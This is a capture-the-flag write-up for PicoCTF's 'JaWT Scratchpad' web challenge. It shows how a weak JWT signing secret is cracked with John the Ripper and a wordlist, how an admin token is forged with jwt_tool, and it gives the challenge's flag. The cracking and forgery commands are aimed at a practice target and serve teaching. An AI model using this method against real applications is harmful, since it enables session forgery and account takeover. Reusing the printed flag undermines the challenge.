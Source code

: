 ```yaml
---
title: "JaWT Scratchpad"
description: "Check the admin scratchpad! https://jupiter.challenges.picoctf.org/problem/58210/ or http://jupiter.challenges.picoctf.org:58210\n\nHint: What is that cookie?\nHint: Have you heard of JWT?"
pubDate: 2025-03-13
ctf: "PicoCTF"
category: "web"
author: "sealldev"
section: "PicoCTF"
tags: ["medium"]
image: "./images/picoctf/jawtscratchpad/home.png"
---
```


We are given a webapp with a home page, specifying we can use any username *except* admin:
![home.png](images/picoctf/jawtscratchpad/home.png)

We can input the username 'sealldev' and we are given our scratchpad:
![myscratchpad.png](images/picoctf/jawtscratchpad/myscratchpad.png)

When we are logged in, I use EditThisCookie2 to look at and modify my cookies:
![cookie.png](images/picoctf/jawtscratchpad/cookie.png)

That is a JWT token! Let's use jwt.io to analyse it.
![jwtdecode.png](images/picoctf/jawtscratchpad/jwtdecode.png)

It has a `user` with the username we inputted, we don't know the secret so we can't modify the `user` to `admin`.

The webapp page has a hint:
> You can use your name as a log in, because that's quick and easy to remember! If you don't like your name, use a short and cool one like **John**!

**John** has a hyperlink attached to JohnTheRipper, a hash cracking software!

So, can we crack the hash for the JWT? The answer is yes! I download SecLists to get rockyou.txt.
```bash
$ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoic2VhbGxkZXYifQ.JBWK-4qJOo1qQDT1JixKFdEzKc2fM2oR4fxTJ62m6wI" > jwt
$ john --wordlist=/.../SecLists/Passwords/Leaked-Databases/rockyou.txt jwt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 ASIMD 4x])
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)
1g 0:00:00:02 DONE (2025-03-13 23:38) 0.3355g/s 2481Kp/s 2481Kc/s 2481KC/s ilovepie77..ilovepets!
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The password is `ilovepico`!

We can now use jwt_tool to forge a new JWT token.

```bash
$ python3 jwt_tool.py -p ilovepico -T -S hs256 "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoic2VhbGxkZXYifQ.JBWK-4qJOo1qQDT1JixKFdEzKc2fM2oR4fxTJ62m6wI"                                                     1 ↵

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.7                \______|             @ticarpi

Original JWT:


====================================================================
This option allows you to tamper with the header, contents and
signature of the JWT.
====================================================================

Token header values:
[1] typ = "JWT"
[2] alg = "HS256"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] user = "sealldev"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of user is: sealldev
Please enter new value and hit ENTER
> admin
[1] user = "admin"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_bbe5a5f4d2742010313ecfcfe3a15d73 - Tampered token - HMAC Signing:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```

To explain the options we used in the command:
- `-p ilovepico` specifies the password for the signature
- `-S hs256` specifies with what algorithm to sign the new signature
- `-T` enables tampering which has the dialogue to change the 

I then change the payload to set the `user` to `admin`.

It then returns the tampered token: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s`.

We can then change the `jwt` cookie to have that as the value (I use EditThisCookie2 to update it).

I then reload the page and get the flag!
![flag.png](images/picoctf/jawtscratchpad/flag.png)

Flag: `picoCTF{jawt_was_just_what_you_thought_44c752f5}`